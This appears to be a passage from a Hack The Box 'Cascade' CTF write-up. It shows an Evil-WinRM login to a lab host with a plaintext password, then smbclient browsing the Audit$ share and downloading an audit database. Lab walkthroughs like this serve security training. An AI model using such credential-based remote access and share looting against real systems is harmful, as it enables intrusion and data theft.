 
$ evil-winrm -i 10.129.155.114 -u s.smith -p sT333ve2 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> dir C:\Users\s.smith\Desktop


    Directory: C:\Users\s.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/10/2022   7:48 PM             34 user.txt
-a----         2/4/2021   4:24 PM           1031 WinDirStat.lnk



$ smbclient \\\\10.129.155.114\\Audit$ -U s.smith
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

                6553343 blocks of size 4096. 1627217 blocks available
 smb: \> cd DB
smb: \DB\> dir
  .                                   D        0  Tue Jan 28 16:40:59 2020
  ..                                  D        0  Tue Jan 28 16:40:59 2020
  Audit.db                           An    24576  Tue Jan 28 16:39:24 2020

                6553343 blocks of size 4096. 1627215 blocks available
smb: \DB\> get Audit.db
getting file \DB\Audit.db of size 24576 as Audit.db (160.0 KiloBytes/sec) (average 160.0 KiloBytes/sec)


![image-center](/images/htb/htb_cascade_sqlite.png){: .align-center}
